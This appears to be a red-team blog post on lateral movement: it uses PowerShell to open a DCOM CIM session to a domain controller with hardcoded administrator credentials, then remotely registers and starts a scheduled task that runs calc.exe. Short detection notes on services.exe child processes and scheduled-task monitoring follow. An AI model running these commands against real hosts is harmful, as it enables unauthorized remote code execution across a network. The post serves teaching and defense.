 ```yaml
---
layout: post
title: "wmi via newscheduledtask"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /wmi-via-newscheduledtask/
---
```


---
layout: post
title: "wmi via newscheduledtask"
date: 2024-06-18
categories: lateral-movement
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /wmi-via-newscheduledtask/
---

# WMI + NewScheduledTaskAction Lateral Movement

## Execution

On the victim system, let's run a simple loop to see when a new scheduled task gets added:

```csharp
$a=$null; while($a -eq $null) { $a=Get-ScheduledTask | Where-Object {$_.TaskName -eq "lateral"}; $a }
```

Now from the compromised victim system, let's execute code laterally:

{% code title="attacker@remote" %}
```csharp
$connection = New-Cimsession -ComputerName "dc-mantvydas" -SessionOption (New-CimSessionOption -Protocol "DCOM") -Credential ((new-object -typename System.Management.Automation.PSCredential -ArgumentList @("administrator", (ConvertTo-SecureString -String "123456" -asplaintext -force)))) -ErrorAction Stop; register-scheduledTask -action (New-ScheduledTaskAction -execute "calc.exe" -cimSession $connection -WorkingDirectory "c:\windows\system32") -cimSession $connection -taskname "lateral"; start-scheduledtask -CimSession $connection -TaskName "lateral"
```
{% endcode %}

Graphic showing both of the above commands and also the process ancestry on the target system:

![](<../../.gitbook/assets/Peek 2018-10-19 22-24.gif>)

## Observations

As usual, services.exe spawning unusual binaries should raise a wary defender's suspicion. You may also want consider monitoring for new scheduled tasks that get created on your systems:

![](<../../.gitbook/assets/Screenshot from 2018-10-19 22-35-13.png>)

![](<../../.gitbook/assets/Screenshot from 2018-10-19 22-59-12.png>)

{% hint style="info" %}
Sysmon config master version 64 from [https://github.com/SwiftOnSecurity/sysmon-config](https://github.com/SwiftOnSecurity/sysmon-config) does not log the calc.exe Process Creation event being spawned by the services.exe
{% endhint %}

@spotheplanet
